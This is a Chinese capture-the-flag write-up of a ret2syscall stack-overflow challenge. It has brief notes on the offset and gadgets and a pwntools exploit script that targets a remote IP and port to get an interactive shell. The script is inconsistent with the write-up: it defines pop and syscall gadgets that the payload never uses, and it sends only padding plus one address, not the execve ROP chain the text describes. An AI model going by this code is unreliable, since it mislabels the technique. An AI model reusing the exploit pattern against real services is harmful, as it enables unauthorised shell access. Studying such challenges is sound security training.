









2026 // 05 / 31
栈溢出2（500分）Writeup — ret2syscall
跟上一篇一样，直接看。

shift+f3 查找 /bin/bash 字符串。

找一下，没有这个函数。

看不出什么。

然后是翻。

参考系统调用表 pwn之ret2syscall - 扶苏千千 - 博客园 (cnblogs.com)。

没思路直接抄就好了。

这只是个 64 位程序，要 pop rax, pop rdi, pop rsi, pop rdx, pop rcx 的地址。

pwntools 执行 ret2syscall，offset = 0x110 + 8 = 280，ROP 链调用 execve("/bin/bash", 0, 0)。

from pwn import *
from sys import *
context.arch = 'amd64'
context.log_level = 'debug'
p = remote('39.106.48.123', 10004)
shell = 0x0000000000400714
len = 0x110 + 8
pop_rax = 0x4005fb
pop_rdi = 0x4005ff
pop_rsi = 0x400601
pop_rdx = 0x400603
pop_rcx = 0x400605
syscall = 0x400550
payload = b'A' * len + p64(shell)
p.sendline(payload)
p.interactive()